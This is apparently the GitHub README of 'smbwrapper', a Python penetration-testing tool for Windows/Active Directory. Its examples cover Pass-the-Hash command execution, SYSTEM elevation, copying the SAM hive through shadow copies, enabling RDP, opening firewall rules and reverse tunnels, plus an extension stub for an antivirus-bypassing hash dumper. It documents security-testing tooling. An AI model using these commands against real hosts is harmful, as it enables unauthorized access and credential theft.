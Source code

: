 ## SMB Wrapper ##

**smbwrapper** is a python script which provides wrappers around `smbclient` and `winexe` with added functionality and Pass-the-Hash support.

It is intended for penetration testers and security auditors who are targeting Windows/Active Directory environments.

It relies on various external tools such as slighly modified versions of `smbclient-pth`, `winexe-pth`, `xfreerdp` and `socat`. At the moment, they will **only run in Linux x64**. It should run fine in Kali 64 bits.

It also includes various windows executables that are meant to be run on targeted Windows systems, such as [socat for windows](https://github.com/jboecker/dcs-arduino-example/tree/master/socat), [MBSA](https://technet.microsoft.com/en-us/security/cc184924.aspx), [nircmd](http://nirsoft.net/utils/nircmd.html) or *runastask* (see below)

### TL;DR ##

Below are a few examples of basic usage.

Add current credentials (use password or NT hash):

	$ ./smb.py creds add MYDOMAIN\\Administrator 209C6174DA490CAEB422F3FA5A7AE634 "My Demo User"
	[*] Credentials added and marked as active.

Execute commands (use -s for LocalSystem elevation):

	$ ./smb.py exec 10.1.2.3 whoami
	mydomain\administrator

	$ ./smb.py exec -s 10.10.10.12 whoami
	nt authority\system

	$ ./smb.py exec 10.10.10.12 cmd
	Microsoft Windows [Version 6.1.7601]
	Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

	C:\Windows\system32>

Download a file locked by the system:

	$ ./smb.py vsscpy 10.10.10.12 c:\\windows\\system32\\config\\SAM /tmp/sam
	[*] Uploading script...
	[*] Running script...
	[*] Downloading file to '/tmp/sam'...
	[*] Removing temp files...
	[*] Done.

	$ file /tmp/sam 
	/tmp/sam: MS Windows registry file, NT/2000 or above

Enable RDP:

	$ ./smb.py rdp 10.10.10.12 enable
	[*] Updating Registry...
	[*] Adding firewall rule...
	[*] Success.

Open a RDP session to a host behind a firewall:

Terminal 1 - Create a reverse port forwarding tunnel

	$ ./smb.py revfwd 10.10.10.12 3389 10.10.10.13 3389
	[*] Uploading files...
	[*] Setting up local listener...
	[*] Adding firewall rule...
	[*] Success.
	[*] Creating reverse tunnel...
	[i] 10.10.10.13:3389 <--> 10.10.10.12:56789 <--> 192.168.0.1:3389
	[i] Now point your client to 192.168.0.1:3389

Terminal 2 - Connect to the local port

	$ ./smb.py rdp 192.168.0.1 RemoteUsername RemotePassword

### Help ###

	$ ./smb.py help
	smb.py v1.0.0alpha by jrm` - Run stuff remotely - Pass the Hash

	smb.py -h 				 This help
	smb.py -f <file>		 Specify an alternative credential vault

	   The following commands are currently implemented:

	   smb.py creds [ list | set | del | use ] <user> <passwd/nthash>
		Manage SMB credentials

	   smb.py exec [-s] <ip> [ user ] [ passwd/nthash ] <cmd>
		Execute a command remotely (use "cmd" for a command prompt)

	   smb.py upexec [-s] <ip> [ user ] [ passwd/nthash ] <localfile.exe [-arg1 [-argx]]>
		Upload a file and run it remotely with the specified arguments

	   smb.py upload [-s] <ip> [ user ] [ passwd/nthash ] <localfile> <remotefile>
		Upload a file to the host

	   smb.py download [-s] <ip> [ user ] [ passwd/nthash ] <remotefile> <localfile>
		Download a file from the host

	   smb.py scrshot [-s] <ip> [ user ] [ passwd/nthash ]
		Takes a screenshot of the active session

	   smb.py vsscpy [-s] <ip> [ user ] [ passwd/nthash ] <remotefile> <localfile>
		Use shadow copies to download a locked file from the host

	   smb.py fwrule [-s] <ip> [ user ] [ password ] <add | del> <program path | port number>
		Create or remove a rule in the Windows firewall

	   smb.py mount <ip> [ user ] [ password ] <share> <localpath>
		Mount a remote share locally via CIFS (Pass-the-Hash not available)

	   smb.py rdp <ip> [ user ] [ passwd/nthash ] [ enable | disable ]
		Open a Remote Desktop session using xfreerdp (Pass-the-Hash = restricted admin)

	   smb.py portfwd [-s] <ip> [ user ] [ passwd/nthash ] <lport> <rhost> <rport>
		Forward a remote port to a remote address

	   smb.py revfwd [-s] <ip> [ user ] [ passwd/nthash ] <lport> <rhost> <rport>
		Reverse-forward a remote address/port locally

	   smb.py mbsa [-s] <ip> [ user ] [ passwd/nthash ]
		Run MBSA on the remote host

	   smb.py hash <plaintext>
		Generate a NTLM hash from a plaintext

	   If the command supports it, use the '-s' option to attempt remote LocalSystem elevation.

	   Instead of using username+password or username+hash on the commandline,
	   you can use the smb.py creds command to populate the credential vault.

	   Usernames must be specified using the DOMAIN\LOGIN syntax.

	   See usage examples at: https://github.com/jrmdev/smbwrapper/blob/master/README.md

### Credential management ###

For each command, you can specify the credentials to use on the command line. However, if you choose not to, you can maintain a credential vault.

The `smb.py creds` command allows to view and edit a credential vault in an sqlite database. It is mostly useful when working in an Active Directory environment so that you can retain the domain administrator's credentials across multiple runs without the hassle to specify them on the command line. It also makes to tool more easier and effective to work with.

**Disclamer:** The credentials are stored in clear-text in the sqlite db. Feel free to use NTLM hashes instead of passwords, or not to use this feature at all.

### Writing a quick extension ###

The way **smbwrapper** is designed enables it to be extensible very easily. Just create your own function at the end of the script with a name starting by "smb_".

For example, if you want it to support your *super-cool custom-made antivirus-bypassing* hash dumper program, you would add such a function:

	def smb_hashdump():
		"""
		[-s] <ip> [ user ] [ password | ntlm_hash ]
		Dumps remote password hashes using my prog.
		"""

		set_creds(4)
		check_creds()
		print up_and_exec(['/path/to/my/prog.exe', '--dump'])

And then run `smb.py hashdump 1.2.3.4`. That's all you need to do.

`set_creds()` parameter is the minimum length that `sys.argv` can have for the credentials to be read from the vault. If `sys.argv` length is bigger, credentials will be read from the command-line.

`check_creds()` is optional but will prevent running further commands if the credentials don't work.

*Note:* You could also simply run `smb.py upexec 1.2.3.4 /path/to/my/prog.exe --dump` but creating your own function enables you to add extra functionality easily and can be useful to parse and reuse the output.

### Tools included ###

`runastask` was developed specifiaclly for `smbwrapper`. It allows to run a GUI program from a non-console session by creating a one-time scheduled task.

It is useful for commands that need access to the user's desktop, such as `smb.py scrshot`. It takes the username to run the task with as an argument. If no matching user desktop is found, it does nothing.

`mbsacli` is the command-line version of the Microsoft Baseline Security Analyzer and is useful for reporting missing patches.

`nircmd` is a tool from NirSoft that allows to perform multiple tasks on windows hosts. For the moment it is basically used to take screenshots along with `runastask`.

`vsscpy.vbs` is a Visual Basic script used to copy locked files by making use of shadow volumes.

`socat.tar` is the tarball'ed version of socat compiled for Windows. It include some Cygwin DLL libraries.

`tar.exe` is... Guess what.
